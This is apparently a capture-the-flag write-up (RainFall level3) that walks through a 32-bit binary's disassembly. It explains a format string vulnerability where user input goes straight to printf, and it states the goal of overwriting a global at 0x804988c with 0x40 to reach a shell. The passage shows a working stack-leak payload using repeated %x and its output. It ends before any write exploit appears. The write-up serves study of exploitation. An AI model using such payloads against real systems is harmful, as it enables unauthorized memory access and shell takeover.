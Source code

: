Okay. So now it looks like we are not going to exploit a buffer overflow vulnerability : this time the programmer wisely choosed `fgets`, which accepts a size limit, `0x200` in our case. Also, the buffer looks wide enough to accomodate `0x200` bytes : `sub esp,0x218`.

But looking downward a few instructions, he does something extremely unsafe, which is feeding our buffer directly to the `printf` function :

```
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```

Keeping that in mind, let's continue.

```
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
```

These instructions perform an equality check between a value stored at address `0x804988c` and the immediate data `0x40`. We can assume that this is a global variable, located into the data segment.
If this test does not pass, the function simply return, otherwise, it uses the C library call `system` to spawn a shell.

**Our exploit will have to modify the global variable stored at address `0x804988c`, and put the value `0x40` in it in order to have access to the shell.**

But how ?

## String format vulnerability

Remember when i said that feeding a non sanitized user input into a `printf` famility function is a very bad idea ? This is a so called **string format vulnerability**. We allow the user of the application to specify the *format string*. By doing so, we allow the user to read process memory, and even writing to it. One can basically do a full dump of a process memory with a good exploit of a string format vulnerability.

The behaviour of the C format function is controlled by the format string. The function retrieves the parameters requested by the format string from the stack. Do note that the format string is also in the stack ! This is the first argument of a format function.

This following input prints 64 32-bit value from the stack :

```
level3@RainFall:~$ python -c 'print("%x "*64)' | ./level3
200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 a b7fdcb18 0 0 0 3 f63d4e2e 3f3 0 b7e38938 b7fffe78 b7ff9d5c b7e2fe38
```

We can see the contents of the buffer filled by `fgets` (our input), also the size of the buffer that was used by the former function, `0x200`.
